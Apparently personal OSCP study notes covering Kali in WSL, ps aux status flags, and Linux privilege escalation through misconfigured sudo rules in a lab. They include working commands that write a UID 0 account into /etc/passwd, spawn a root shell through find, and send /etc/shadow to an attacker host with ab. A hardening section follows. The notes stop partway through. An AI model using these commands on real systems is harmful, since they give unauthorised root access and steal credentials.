How to install linux in 
WSL 
windows sub system for linux 

open cmd in windows 
and run 

```
wsl --install kali
```

you can directly access kali thourgh wsl 


if you search for an app like firefox in windows search bar 
you will have option for running that app in kali linux wsl 



if you want to open for ex. burp suite and its option is not coming in windiws serach
you can enter command 

```
burpsuite
```

in kali wsl and it will open it

so beenfit of this is you dont need to install vmware additionaly 
but you cannot give any exam from this 
because it is unstable

so for exam use vmware only

----

ps aux command menaing

```
ps aux
```




ps aux meaning ssl s+ s I< and other other types

Good question—`ps aux` output looks cryptic at first, but once you decode it it becomes really useful for Linux/OSCP.

When you run:

```
ps aux
```

you’ll see columns like:

```
USER   PID %CPU %MEM    VSZ   RSS TTY   STAT START TIME COMMANDroot     1  0.0  0.1 168888 12288 ?     Ss   09:12 0:03 /sbin/init
```

The part you asked about (`Ss`, `S+`, `I<`, etc.) is the **STAT** column.

Here’s how it works:

## 1. Main process states (first letter)

This first character tells the **current state**.

|Code|Meaning|Simple meaning|
|---|---|---|
|**R**|Running|actively using CPU|
|**S**|Sleeping|waiting for something (very common)|
|**D**|Uninterruptible sleep|waiting on disk/I/O|
|**T**|Stopped|paused|
|**Z**|Zombie|process finished but not cleaned up|
|**I**|Idle kernel thread|kernel background thread|

Examples:

```
R
```

→ running right now

```
S
```

→ sleeping/waiting

```
Z
```

→ zombie

---

## 2. Extra flags (letters after the first)

These add more detail.

|Flag|Meaning|Example|
|---|---|---|
|**s**|session leader|shell/login process|
|**+**|foreground process|attached to terminal|
|**<**|high priority|important|
|**N**|low priority|nice'd|
|**l**|multithreaded|browser/java|
|**L**|pages locked in RAM|rare|

---

## Your examples

### `Ss`

- **S** = sleeping
- **s** = session leader

Example:

```
bashsshdsystemd
```

Meaning:

> sleeping, and it’s the leader of that session.

---

### `S+`

- **S** = sleeping
- **+** = foreground terminal

Example:

```
vimnanobash
```

Meaning:

> waiting and currently tied to your terminal.

---

### `Ssl`

- **S** = sleeping
- **s** = session leader
- **l** = multithreaded

Common:

```
chromefirefoxdbus
```

Meaning:

> sleeping, session leader, multiple threads.

---

### `I<`

- **I** = idle kernel thread
- **<** = high priority

Example:

kernel worker threads.

Meaning:

> kernel background task with high priority.

---

### `R+`

- **R** = running
- **+** = foreground terminal

Example:

```
tophtop
```

---

### `Z`

Zombie.

Example:

parent didn’t clean up child.

---

## Easy memory trick

Think:

**First letter = what it's doing**

- R = Running
- S = Sleeping
- Z = Zombie

**Other letters = extra info**

- s = session leader
- - = your terminal
- l = threads
- < = priority

Example:

```
ps aux | grep firefox
```

Maybe:

```
kali  1234 ... Ssl ... firefox
```

Read as:

> Firefox is sleeping, it leads its session, and is multithreaded.

For OSCP/AD labs, the ones you’ll notice most are:

- **S** → normal
- **R** → active
- **Z** → broken
- **+** → tied to terminal
- **s** → shell/session leader

Once you read `ps` this way, process hunting becomes much easier.


----

we add a new user "oscp"

```
sudo adduser oscp
New password: 123
Retype new password: 123
```

now the new user made is a normal user 
it does not have sudo permission

```
└─$ sudo su
[sudo] password for oscp: 
oscp is not in the sudoers file.
```

"sudo -l" tells us which all command the user can execute with sudo 
i.e sudo -list

```
┌──(oscp㉿kali)-[/home/kali]
└─$ sudo -l
[sudo] password for oscp: 
Sorry, user oscp may not run sudo on kali.
```

similarly , the user "kali" can execute all commands with sudo rights : 

```
┌──(kali㉿kali)-[~]
└─$ sudo -l
[sudo] password for kali: 
Matching Defaults entries for kali on kali:
    secure_path=/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for kali:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User kali may run the following commands on kali:
    (ALL : ALL) ALL
```

so our oscp user is a normal user
ex. it can see the contents of /etc/passwd but not modify it 

now for ex we will take any command which we want to exeucte with the user oscp
ex. "cp" or copy command 

```
┌──(oscp㉿kali)-[/home/kali]
└─$ which cp
/usr/bin/cp
```

it will tell us the location of cp command 

now to add it , we go to the root user , in another terminal 

because only root declares all the permissions 

```
┌──(root㉿kali)-[/home/kali]
└─# nano /etc/sudoers
```

this contains the details of uder wheteer it can accesss sudo or not 
so this is the configuration file

we scrool down to the bototm of the file 



it contains the users which can acess sudo 

we will add a new user here "oscp"

```
oscp  ALL=(ALL:ALL) /usr/bin/cp
```

here in the brakcets , the first all is the user and second ALL is the group 
after that we tell that which all commands get the sudo rights , we wil give "cp" command here by providing its path "/usr/bin/cp"



save the file and exit

now if we run the "sudo -l" command we wil see thta it has got the permission to run the cp command as root

```
┌──(oscp㉿kali)-[/home/kali]
└─$ sudo -l
[sudo] password for oscp: 
Matching Defaults entries for oscp on kali:
    secure_path=/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for oscp:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User oscp may run the following commands on kali:
    (ALL : ALL) /usr/bin/cp
```

now what does cp do it simply copies files 

now what if using 'cp' we can overwrite the password file ?

we first come to the home folder of our user oscp

```
┌──(oscp㉿kali)-[/home/kali]
└─$ cd

┌──(oscp㉿kali)-[~]
└─$ pwd
/home/oscp
```

now we copy the passwd file to our current directory 

```
┌──(oscp㉿kali)-[~]
└─$ cp /etc/passwd .

┌──(oscp㉿kali)-[~]
└─$ ls
passwd
```

now we give all read , write and execute permission to the coped file 

```
┌──(oscp㉿kali)-[~]
└─$ chmod 777 passwd

┌──(oscp㉿kali)-[~]
└─$ ls -la
-rwxrwxrwx 1 oscp oscp  3363 Jun 17 12:36 passwd
```

now we edit the passwd file 

we add a new user "abc" at the end of the file

the "x" after username means it is passowrd protected

so we create a password hash for entering there

```
┌──(root㉿kali)-[/home/kali]
└─# openssl passwd 1234
$1$.0RnzXMA$Fotu15ItNGn9sWWoVqdis0
```

now we paste this hash in the passowr dsection of the user 

then we add 

```
:0:0
```

which is for user id and user group 
so 0 user id and group is for root 

then we add comment 

then home folder location 

then shell we want to login the user with 

```
abc:$1$.0RnzXMA$Fotu15ItNGn9sWWoVqdis0:0:0:comment:/:/bin/bash
```

then save the file and exit 

so now we do 


```
sudo cp passwd /etc/passwd
```

using sudo and cp we paste our modified passwd file in the /etc/passwd location

now if we login to our user 'abc' we will get root shell 

```
┌──(oscp㉿kali)-[~]
└─$ su abc                                                                                      
Password: 
root@kali:/home/oscp# 
```

so such a small thing can harm the system 
whatever configuration you do can become a misconfiguration also 

The issue is not that `cp` itself is dangerous. The issue is that **`cp` can write arbitrary files as root** when executed through sudo.

In your example:

```
oscp ALL=(ALL:ALL) /usr/bin/cp
```

You intended:

> "Allow the user to copy files."

But what you actually granted was:

> "Allow the user to overwrite ANY file on the system as root."

That includes:

```
/etc/passwd/etc/shadow/etc/sudoers/root/.ssh/authorized_keys/etc/crontab
```

which leads directly to privilege escalation.

---

# How to Prevent This Misconfiguration

## 1. Follow the Principle of Least Privilege

Never give access to a generic file-manipulation command unless absolutely necessary.

Bad:

```
oscp ALL=(ALL:ALL) /usr/bin/cp
```

Bad:

```
oscp ALL=(ALL:ALL) /usr/bin/mv
```

Bad:

```
oscp ALL=(ALL:ALL) /usr/bin/vim
```

Bad:

```
oscp ALL=(ALL:ALL) /bin/bash
```

Instead, create a controlled script.

Example:

```
#!/bin/bashcp /var/log/app.log /backup/
```

Give sudo permission only to that script:

```
oscp ALL=(root) NOPASSWD: /usr/local/bin/backup_log.sh
```

Now the user can only perform that specific action.

---

## 2. Use Full Paths

Always specify the exact binary.

Bad:

```
oscp ALL=(ALL) cp
```

Good:

```
oscp ALL=(ALL) /usr/bin/cp
```

This prevents PATH manipulation attacks.

---

## 3. Review Sudo Rules Regularly

Check:

```
sudo -l
```

for each privileged account.

Also inspect:

```
sudo cat /etc/sudoers
```

and

```
ls /etc/sudoers.d/
```

Many organizations forget old entries.

---

## 4. Be Careful With GTFOBins

Many seemingly harmless binaries can be abused.

Examples include:

- `cp`
- `tar`
- `find`
- `less`
- `vim`
- `nano`
- `awk`
- `python`
- `perl`
- `rsync`
- `zip`

A good resource is:

[GTFOBins](https://gtfobins.github.io?utm_source=chatgpt.com)

Before allowing any binary in sudoers, check whether it can be abused for privilege escalation.

For example:

```
sudo find . -exec /bin/bash \; -quit
```

can yield a root shell if `find` is allowed.

---

## 5. Use NOEXEC Where Possible

Sudo supports:

```
Defaults!COMMAND noexec
```

Example:

```
Defaults!/usr/bin/less noexec
```

This prevents spawning child processes from some programs.

Not a complete defense, but useful.

---

## 6. Restrict Arguments

Instead of:

```
oscp ALL=(root) /usr/bin/systemctl
```

use:

```
oscp ALL=(root) /usr/bin/systemctl restart nginx
```

This limits what the user can do.

---

## 7. Prefer Groups Over Individual User Rules

Instead of:

```
alice ALL=(ALL) /usr/bin/cpbob   ALL=(ALL) /usr/bin/cpcharlie ALL=(ALL) /usr/bin/cp
```

Create a group:

```
%backupadmins ALL=(root) /usr/local/bin/backup.sh
```

Easier to audit and manage.

---

## 8. Monitor Changes to sudoers

Edit using:

```
visudo
```

not:

```
nano /etc/sudoers
```

`visudo` performs syntax checking and prevents locking yourself out.

---

# Security Review of Your Example

The vulnerable rule:

```
oscp ALL=(ALL:ALL) /usr/bin/cp
```

violates least privilege because `cp` can overwrite any file writable by root.

The attack chain was:

1. Copy `/etc/passwd`
2. Modify it locally
3. Add a UID 0 account
4. Use sudo-enabled `cp`
5. Overwrite `/etc/passwd`
6. Log in as the new UID 0 account
7. Gain root shell

This is a textbook **Privilege Escalation via Sudo Misconfiguration (MITRE ATT&CK T1548.003 - Sudo and Sudo Caching)** and is exactly the kind of issue frequently found during Linux privilege-escalation assessments and OSCP-style labs.

A good rule of thumb:

> If a command can read arbitrary files, write arbitrary files, execute commands, spawn shells, edit files, or load plugins/modules, assume it can potentially become root if granted through sudo. Always verify it against GTFOBins before adding it to `sudoers`.


----

now we try with a differenet command "rm" remove

now we again go to root and edit the sudoers files

```
┌──(root㉿kali)-[/home/kali]
└─# nano /etc/sudoers
```



save the file and exit

we check in the oscp user if it has gotten the permssion to run "rm" as sudo

```
┌──(oscp㉿kali)-[~]
└─$ sudo -l
Matching Defaults entries for oscp on kali:
    secure_path=/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for oscp:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User oscp may run the following commands on kali:
    (ALL : ALL) /usr/bin/rm
```

now what all can we do with "rm"
used to delete files and directories 

now we go to GTFOBins

GTFOBins is a curated list of Unix-like executables that can be used to bypass local security restrictions in misconfigured systems.

https://gtfobins.org/


we will search for our command here 
i.e "rm"


we get no results 
so it means we cannot do much with 'rm'

most we can do is remove some files from "etc" folder which are importnat configruation files and which will land you in ttroubleshooting mode 

and trouibl hsooting always opens with root 

that means in that case the system will not boot but a shell will be opneed

now in that root by default you will have permission then you can give permission to the user fromt here

and then add the file back to the place from where you had removed 

so you can keep a copy of that file somehwhere else andt hen rmeove it 

---

there are some command which you can directly take shell form 



ex. ash command 
you can directly enter command and take shell 


but tehre are some commands you just cannot take a shell with 

ex. "ab" command 


it is only for upload and download 

we will try with ab command now 

we go to 

```
┌──(root㉿kali)-[/home/kali]
└─# nano /etc/sudoers
```

and add 'ab' command 

```
oscp  ALL=(ALL:ALL) /usr/bin/ab
```



save and exit file

```
┌──(oscp㉿kali)-[~]
└─$ sudo -l
[sudo] password for oscp: 
Matching Defaults entries for oscp on kali:
    secure_path=/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for oscp:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User oscp may run the following commands on kali:
    (ALL : ALL) /usr/bin/ab
```

now we dont actually know what ab does 
but we can see it has sudo privileges in the user 
by checking "sudo -l"



we can upload and download files

so we will download the file now 




so we will transfer files from the 
nomral unprivileged user i.e oscp to our kali machine 

we run the reeceiver command on our other kali machine 

```
nc -l -p 80 | awk 'BEGIN {RS="\r\n\r\n";ORS=""} NR==2' >/path/to/output-file
```

we speicfy the output file as shadow

```
nc -l -p 80 | awk 'BEGIN {RS="\r\n\r\n";ORS=""} NR==2' > shadow 
```
it will start listening now 

now on out other "oscp" user 
we run the command to upload the file 


```
ab -p /path/to/input-file http://attacker.com/
```

we speicfy the path to input file as "/etc/shadow"
and give the ip address of the kali mahcine 
where i have to send the files to 



we add sudo also in start since we have to run it as sudo 

```
sudo ab -p /etc/shadow http://192.168.60.134/
```


we will then automatically get the credentials / file to our attacker mahcine i.e kali here



we uplaoded the the file to attacker machine 

now we will download the file to our normal user"oscp" from the ttacker machine 

after modifying the a similar passwd file

```
┌──(kali㉿kali)-[~]
└─$ cp /etc/passwd .
                                                                                                
┌──(kali㉿kali)-[~]
└─$ ls
Desktop  Documents  Downloads  Music  passwd  Pictures  Projects  Public  Templates  Videos
                                                                                                
┌──(kali㉿kali)-[~]
└─$ nano passwd    
```


now we will add one more user 
"abc1" and copy paste the same credentials and rules ans its previusly added user i.e "abc"



we save the file and then exit


